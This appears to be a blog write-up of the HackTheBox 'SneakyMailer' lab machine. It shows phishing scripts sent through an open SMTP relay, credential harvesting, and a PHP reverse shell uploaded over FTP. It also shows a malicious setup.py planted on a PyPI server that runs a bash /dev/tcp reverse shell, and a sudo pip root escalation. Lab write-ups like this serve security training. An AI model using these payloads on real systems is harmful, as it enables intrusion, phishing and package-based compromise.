 ```yaml
---
date: 2020-07-16 06:53:04
layout: post
title: "SneakyMailer"
subtitle:
description:
image: /writeups/asset/img/Sneakymailer/sneakymailer.png
optimized_image:
category:
tags:
author:
paginate: false
---
```

Started with nmap scan
```bash
nmap -T4 -p- -A 10.10.10.197
```
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-15 04:51 IST
Nmap scan report for sneakycorp.htb (10.10.10.197)
Host is up (0.31s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: ACL2=UNION CAPABILITY ENABLE SORT THREAD=ORDEREDSUBJECT NAMESPACE UIDPLUS completed ACL CHILDREN IDLE IMAP4rev1 UTF8=ACCEPTA0001 THREAD=REFERENCES STARTTLS OK QUOTA
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   356.21 ms 10.10.14.1
2   356.18 ms sneakycorp.htb (10.10.10.197)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.70 seconds
```
21,22,25,80,143,993,8080 ports were open.FTP port didn't allowed anonymous access.
The website at port 80 didn't work directly with ip and redirected to sneakycorp.htb.So added sneakycorp.htb in /etc/hosts file.
![placeholder](/writeup/assets/img/sneakymailer/hosts.png "hosts")
Now the website responded correctly.
![placeholder](/writeup/assets/img/sneakymailer/web.png "web")
Found link to register functionality in the source of webpage.
![placeholder](/writeup/assets/img/sneakymailer/register.png "register")
The registration funtion doesn't seem to work.
Tried to find any hidden directories or subdomains with ffuf
```bash
ffuf -w wordlist -u http://sneakycorp.htb/FUZZ
```
Didn't found any thing useful with directory busting but I did found a subdomain.
```bash
ffuf -w subdomains -u http://sneakycorp.htb -H "Host: FUZZ.sneakycorp.htb -fw 6"
```
![placeholder](/writeup/assets/img/sneakymailer/sub.png "subdomains")

Added the entry dev.sneakycorp.htb in the hosts file.
The subdomain didn't came to be much useful except it gave the link to register functionality directly in the dashboard of the website.
On the website's team.php page, found many emails.
Moved on to the port 25(smtp). I found that I can send mail using this port without any authentication.


Extracted every email from the website with python.
```python
from lxml import etree
import requests

data=requests.get("http://sneakycorp.htb/team.php")
parser = etree.HTMLParser()
tree = etree.fromstring(data.text, parser)
results = tree.xpath('//tr/td[position()=4]')
output=open("emails","w")
for r in results:
    output.write(r.text+"\n")
```
Since the box name and image suggested of phishing. So tried to send mail to every email.
```python
import smtplib

data=open("/root/tmp/emails","r")
s = smtplib.SMTP(host='10.10.10.197', port=25)
lines=data.readlines()
i=0
for line in lines:
    print(i)
    to=line.split()       
    message = "http://10.10.14.35/"+str(to)
    s.sendmail("sulcud@sneakymailer.htb","paulbyrd@sneakymailer.htb","Subject:this mail \n\n"+message)
    i+=1    
s.quit() 
```
Here used a link that pointed to my hosted server.So that I can know whether someone clicks a link from the machine(I mean any script deployed on machine to do this).
Opened my port 80 to look for incoming connections using nc.
```bash
nc -lnvp 80
```
![placeholder](/writeup/assets/img/sneakymailer/back.png "back")
Got a request from a email which gave credentials in the format of a request being made to register.php.

Used the credentials to log on to the imap service on port 143 using telnet.
<a href="http://blog.andrewc.com/2013/01/connect-to-imap-server-with-telnet/">Used this</a> blog to get the commands I needed for enumerating the service.
```bash
a1 login paulbyrd password_here
a2 LIST "" "*"
a3 EXAMINE "INBOX.Sent Items"
a4 FETCH 1 BODY[]
a4 FETCH 2 BODY[]
```
INBOX.Sent Items contained two mails first one gave creds for developer user and second one gave hint on what to do next.
![placeholder](/writeup/assets/img/sneakymailer/hint.png "pypi")
Used the creds to log in to the ftp service.

It contained a directory named dev.So it might be the directory from which the dev subdomain works. Uploaded a php reverse shell to the directory and accessed it to get a shell onto the machine.
Changed user from the www-data to developer using su command andd previous creds.


There was also a subdomain pypi which I found from /var/www folder.Enumerating more I found from /etc/nginx/sites-enabled that pypi subdomain is listening on port 8080.

pypi subdomain was hosting a pypi server. The .htpasswd file inside /var/www/pypi.sneakycorp.htb gave a hash which on cracking with john gave the password which was required on the pypi.sneakycorp.htb.
Since the hint pointed that low user will check every module in pypi's packages. So uploaded a module with modification in the setup.py file of module to get a reverse shell.


<a href="https://pypi.org/project/pypiserver/">From</a> the documentation of pypi server. Got the steps required to upload the file.
I used the following pypirc file
```text
[distutils]
index-servers =
  pypi
  local

[pypi]
username:pypi
password:soufianeelhaoui

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Since I had downlaoded mitm6 recently from pip,I used it. Just edited the setup.py to get a shell.
![placeholder](/writeup/assets/img/sneakymailer/module.png "setup")
and then uploaded the module using
```bash
python setup.py sdist upload -r local
```
Since the setup.py would get executed while uploading.So I got a shell back from my machine only.Quickly I closed the connection and opened again.As the file got uploaded, I got a reverse shell from the machine as low user.

The payload can also be improved using a if condition in the setup.py so that connection from the local machine is not made.
```python
#adding a if in the setup.py
if os.getuid() == 1000:
   os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.30/9999 0>&1'")
```

Got the user.txt.

Ran ***sudo -l*** and found that pip3 command can be run as root.
Got the command required for privilege escalation using pip3 from <a href="https://gtfobins.github.io/gtfobins/pip/">gtfobins</a> 
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
Got the root shell and root.txt.    
